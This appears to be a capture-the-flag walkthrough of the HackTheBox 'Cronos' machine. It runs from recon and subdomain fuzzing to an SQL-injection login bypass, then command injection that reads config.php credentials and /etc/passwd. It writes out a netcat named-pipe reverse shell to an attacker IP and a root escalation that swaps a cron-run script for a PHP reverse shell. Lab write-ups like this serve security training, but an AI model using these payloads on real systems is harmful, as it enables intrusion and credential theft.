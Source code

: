 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.13 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Cronos/assets/1.png">

# Enumeration
Running gobuster didn't result in anything.
```
gobuster dir -u http://10.10.10.13/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt
```

We then search for subdomains with wfuzz:
```
wfuzz -u http://cronos.htb -w /usr/share/wordlists/wfuzz/general/big.txt  -H 'Host: FUZZ.cronos.htb' --hw 975
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Cronos/assets/2.png">


After adding admin to the /etc/hosts we try if we can use SQL injection to bypass the login form.
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Cronos/assets/3.png">



This command will list the config.php file. We got a username and password for a database.
```
8.8.8.8;cat config.php
```

<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Cronos/assets/4.png">

We can also view the content of /etc/passwd and spot three accounts that have bash available.
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Cronos/assets/5.png">

# Initial Foothold
We know we can use local file inclusion and command injection. Let's try if we can create a reverse shell by adding the following as command:

```
8.8.8.8;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 4444 >/tmp/f
```

# Privilege Escalation
We got a reverse shell as ```www-data``` and see that there's a cronjob running. After checking permissions we see that it is owned by ```www-data``` so we are able to change the file to our liking. We could alter it to get the content of /root/root.txt.

<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Cronos/assets/6.png">

Another approach is to replace artisan with a reverse php shell. As this script will run as root we will get a shell as root.

Let's grab the shell from https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

We setup a webserver and download the file with ```wget```. We then move the file to replace artisan:
```
mv shell.py /var/www/laravel/artisan
```
We wait while we have our netcat listener ready and get a root shell on the host.
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Cronos/assets/7.png">









